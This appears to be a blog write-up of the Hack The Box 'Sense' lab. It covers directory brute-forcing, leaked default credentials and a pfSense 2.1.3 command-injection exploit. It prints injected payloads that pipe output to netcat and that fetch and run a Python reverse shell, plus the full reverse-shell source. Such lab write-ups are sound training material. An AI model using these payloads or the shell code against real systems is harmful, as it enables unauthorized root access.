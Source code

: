 ```yaml
---
layout: single
title: Sense Writeup
date: '2020-01-15 07:32:44'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-01-15-sense-writeup/sense.png
    text: "https://app.hackthebox.eu/machines/111"
typora-copy-images-to: ../images/posts/2020/${filename}/
---
```

An interesting box that teaches the value of thorough enumeration.…

## Enumeration

Starting with Autorecon we find that only ports 80 & 443 are open. While waiting for the web tests to complete I went to port 80 in Firefox and found I was redirected to HTTPS and that the system seemed to be a PFSense firewall.

Googling the default PFsense credentials and trying them didn't turn anything up, and some other common username/password combinations also failed. Given this is basically a security appliance it wasn't much of a surprise that the usual enumeration techniques that Autorecon runs didn't turn up anything.

Looking at ExploitDB for PFsense vulnerabilities turns up quite a few, however they generally need credentials.

At this point it's time to run some more intensive enumeration, specifically try and brute force directories and files in the webtree. Autorecon runs a light touch brute force using the Web-Content/common.txt list from [Seclists](https://github.com/danielmiessler/SecLists), but this won't always find what is needed. I started another `gobuster` with a more intensive list, looking for some common files that can be left around on a web server:

```bash
gobuster dir -u https://10.10.10.60:443/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403" -x "txt,html,php,asp,aspx,bak"
```
Given the number of extensions this took a couple of hours but turned up a couple of interesting files, including one called system-users.txt:
```
    ####Support ticket###
    
    Please create the following user
    
    username: Rohit
    password: company defaults
```
If we then try and login as Rohit:pfsense (which is the default PFsense password) it fails, but trying rohit:pfsense we manage to login.

## Exploitation

On logging in we can see that PFsense is running the 2.1.3 release. Exploitdb lists [this](https://www.exploit-db.com/exploits/43560) vulnerability which seems relevant.

To test it out we can start up Burp Suite and then set our browser to send traffic through the Burp Suite proxy. If we browse to the affected URL we can capture the request and send it to the Repeater component so we can edit it:

![Screenshot-from-2020-01-14-16-00-02](../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-00-02.png)

From the CVE details we know that you can specify arbitrary shell commands by using a semicolon. We can test this is working, by sending a sleep command:


![Screenshot-from-2020-01-14-16-01-19](../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-01-19.png)

If this takes 10+ seconds to return, we have command execution. As this is an HTTP request data needs to be URL Encoded, hence the + instead of a space.

Due to the way the vulnerability works, nothing is outputted to stdout and so won't appear in the results of the web request. However we can pipe the results to `nc`, which is handily installed in this case.

If we send `database=queues;whoami|nc+<ip_address>+<port>` with a listener on our machine, we can get the output of the command.

![Screenshot-from-2020-01-14-16-07-39](../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-07-39.png)

So, running as root, that's handy as we won't need to do any privilege escalation.

### Putting it all together

So, now we know we can run remote commands, lets see about getting a shell.

First we take a common Python reverse [shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and tidy it up into a script:
```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.2",9876))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
```
and save this as `exploit`.

We then start a listener on port 1234 and tell it to send the contents of the `exploit` file whenever anything connects:
```bash
    nc -lvp 1234 < exploit
```
We start another listener to catch the connections spawned by the reverse shell
```bash
    nc -lvp 9876
```
And finally we use Burp Suite to send our exploit:

`database=queues;nc+10.10.14.2+1234|python`

Which will send any data received from the connection to port 1234 (our Python reverse shell) to the Python interpreter. We need to `ctrl-c` the connection to port 1234 but after doing this we catch a root shell on 9876 which makes it trivial to grab the flags.

